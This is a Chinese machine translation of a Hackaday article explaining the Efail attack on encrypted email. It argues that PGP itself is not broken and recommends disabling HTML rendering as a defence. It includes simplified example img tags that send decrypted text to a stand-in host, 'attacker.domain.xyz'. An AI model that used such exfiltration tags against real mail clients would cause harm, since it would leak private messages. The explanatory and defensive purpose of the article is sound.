 # 解释电子邮件以及为什么它不是电子邮件隐私的终结

> 原文:[https://hack aday . com/2018/05/21/explaining-efail-and-why-it-not-the-end-of-email-privacy/](https://hackaday.com/2018/05/21/explaining-efail-and-why-it-isnt-the-end-of-email-privacy/)

上周 PGPocalipse 是所有的新闻…除了，嗯，这不是一个启示。

一组研究人员发表了一篇论文，描述了如何通过有针对性的攻击来解密 PGP 加密的电子邮件。这项研究本身有很好的文档记录，从安全研究人员的角度来看，这是一篇值得一读的论文，尤其是密码学部分。

但是我们在 [Hackaday 对媒体声称的 Efail 破坏了 PGP 表示怀疑。一些媒体报道甚至建议所有人关闭所有电子邮件客户端的 PGP 加密。，但他们无法用坚定的理由来支持这一建议。事实上，Efail 对绝大多数人来说并不是一个直接的威胁，因为攻击者**必须已经拥有加密电子邮件**才能利用这个漏洞。建议所有人一起禁用加密是没有意义的。](https://hackaday.com/2018/05/14/pgp-vulnerability-pre-announced-by-security-researcher/)

除了大量的假警报，Efail 是一个非常有趣的利用来包装你的脑袋。休息之后，请加入我，我将介绍它是如何工作的，以及您可以做些什么来避免它。

## Efail 不直接利用 PGP

简单来说，如果攻击者能够访问用户的加密电子邮件，他们可以以特定的方式修改邮件，然后将其发送回用户。用户的电子邮件客户端将解密消息，并且(如果电子邮件客户端正在呈现 HTML 标签)自动将解密的消息发送回攻击者。

加密本身没有被破解。正是用户的电子邮件客户端处理邮件的方式引入了漏洞。说 PGP 坏了是完全错误的——但是我们认为它产生了大量的点击。

从电子邮件中提取数据的能力是一个古老的话题。当电子邮件客户端开始增加呈现 HTML 的能力时，就引入了许多安全问题。过去，一些电子邮件客户端甚至将电子邮件内容视为网页，甚至渲染 Javascript。会出什么问题呢？…

## 故事时间:追踪像素

广告业用来追踪网站用户的一种常用技术也适用于 HTML 电子邮件:追踪像素。跟踪像素是一种网络信标，以微小图像的形式包含在网页或电子邮件中，导致软件客户端向另一台服务器发出请求。通过这些请求，服务器通常可以识别请求计算机的 IP 地址、请求内容的时间、发出请求的 web 浏览器的类型以及该服务器先前设置的 cookies 的存在。在电子邮件中，还可以知道用户是否将该电子邮件转发给了另一个用户，因为广告公司发送的带有跟踪像素的每封电子邮件对于每个用户都有唯一的代码。

实现跟踪像素就像在 HTML 电子邮件中添加图像标签一样简单。假设一封电子邮件包含以下标签:

```
<img src="http://attacker.domain.xyz/image-12345678.png" height="1" width="1">

```

当电子邮件客户端试图呈现 HTML 时，它试图从位于*攻击者.域. xyz* 的网络服务器加载文件 *'/image-12345678.png'* ，以便显示它。攻击者控制的 web 服务器记录该请求。如果您曾经查看过 web 服务器日志文件，这看起来会很熟悉:

```
11.22.33.44 - - [17/May/2018:00:25:18 +0100] "GET /image-12345678.png HTTP/1.1" 200 702 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36"

```

在上面的日志条目中，web 服务器(本例中为 Apache)记录了发出请求的浏览器使用的 IP 地址*11.22.33.44*和被请求的文件*image-12345678.png。*在这个简化的例子中，唯一的 ID 是 12345678 零件。还有关于浏览器本身的信息和其他信息，如 cookies，可以被存储，尽管默认情况下不会显示在日志条目中。简单的跟踪像素基本上是一个带有唯一 ID 的自定义文件名。

## Efail 建立在跟踪像素的概念上

Efail 使用这种远程图像加载作为反向通道来解密电子邮件。其他方法也是可能的。Efail 利用了电子邮件的优势，客户端首先必须解密一个加密的消息以便显示它，然后它在消息中呈现 HTML 代码。

Efail 论文描述了解密数据的两种主要渗透方法，一种是直接渗透方法，另一种是使用作者称之为延展性小工具的通用渗透方法。我将试着解释这两者，但不会深入挖掘编码、内容类型等肮脏的细节。

## 直接渗出

假设攻击者可以访问加密的电子邮件消息:“这是一条秘密消息”。他们不知道内容是什么，因为它是加密的，看起来像这样:`TmV2ZXIgZ29ubmEgZ2l2ZSB5b3UgdXAKTmV2ZXIgZ29ubmEgbGV0IHlvdSBkb3duCg==`。攻击者获取这些加密的数据并生成以下电子邮件:

```
Hi this is Jennifer, check out my latest picture: <img src="http://attacker.domain.xyz/TmV2ZXIgZ29ubmEgZ2l2ZSB5b3UgdXAKTmV2ZXIgZ29ubmEgbGV0IHlvdSBkb3duCg==">

```

我们知道，当攻击者控制的服务器试图从服务器加载映像时，它会从请求中收到文件名和有关客户端的详细信息。但是 Efail 团队发现，当电子邮件客户端检测到加密块时，它会在呈现 HTML 之前解密数据。所以当邮件客户端显示这封邮件时，它会立即解密编码块。实际上，呈现前的 HTML 代码将如下所示:

```
Hi this is Jennifer, check out my latest picture: <img src="http://attacker.domain.xyz/This is a secret message">

```

当电子邮件客户端开始最终呈现电子邮件时，它将尝试从攻击者控制的 web 服务器加载位于`/This is a secret message`的图像，该服务器将接收解密的数据作为文件名。

瞧啊。攻击者可以很容易地创建一个简单的脚本，该脚本将根据请求返回图像数据，因此用户将在客户端实际看到一个图像，而攻击者将看到解密的信息。

## 延展性小工具

我们已经看到实现一个直接的渗透通道来解密电子邮件是多么简单。在一些电子邮件客户端中，这种技术不起作用，因此 Efail 论文描述了一种更通用的方法，在实际加密的数据本身中引入渗透通道。

一般来说，不弄乱加密数据是不可能的。前面的电子邮件示例过于简化。电子邮件在发送前几乎都使用 MIME 标准进行编码。研究人员展示了如何利用 CBC 和 CFB 中使用的分组密码操作模式的一些特性，在 S/MIME(MIME 数据的公钥加密和签名标准)和 OpenPGP(与 S/MIME 不同的编码，但功能相似)加密的电子邮件中引入延展性小工具。

简而言之，当使用这些操作模式对消息进行加密时，如果攻击者在加密之前知道单个明文块，他们就有可能将该单个数据块更改为他们选择的有效加密文本。由于 S/MIME 和 OpenPGP 编码的消息在解密后通常以相同的明文开始，这给了攻击者一个引入可延展性小工具的立足点。例如，当电子邮件用 S/MIME 编码(先签名后加密)时，电子邮件通常以“内容类型:多部分/已签名”开头。这封邮件加密后，攻击者知道密文的第一个字节就是那个字符串，所以攻击者知道受害者邮件的这个明文块和对应的密文，这就是引入延展性小工具所需要的。

攻击者可以将这个初始报头更改为他们喜欢的有效密文，这可以是类似于直接渗透方法的类似于`<img src="http://attacker.domain.com/`的内容。酷的部分是，电子邮件客户端将收到一封完全加密的邮件，使其更难检测到攻击。只有在解密之后和呈现之前，攻击才会变得明显。

这在实际工作中有几个挑战。如果你对密码学感兴趣，推荐阅读这篇文章。

## 结论

上面的例子是简化的，不能开箱即用，但是试图解释所发现的 Efail 漏洞的整体机制。我希望读者意识到两件事:电子邮件的加密仍然是普遍安全的，在电子邮件中呈现 HTML 仍然不是一个好主意。

为了保护自己免受这一漏洞以及许多其他漏洞的攻击，请禁用电子邮件客户端中的 HTML 呈现。许多电子邮件客户端允许这一点，并且/或者具有禁止加载远程内容的设置。这可能足以阻止 Efail，至少可以阻止使用 *img* 标签作为反向通道的攻击。如果您使用 PGP，而您的电子邮件客户端不支持这些设置，请考虑更换为更安全的客户端。

我的主要建议是现在就禁用 HTML 渲染，即使你不使用 PGP。至少这样跟踪你的公司会少很多。
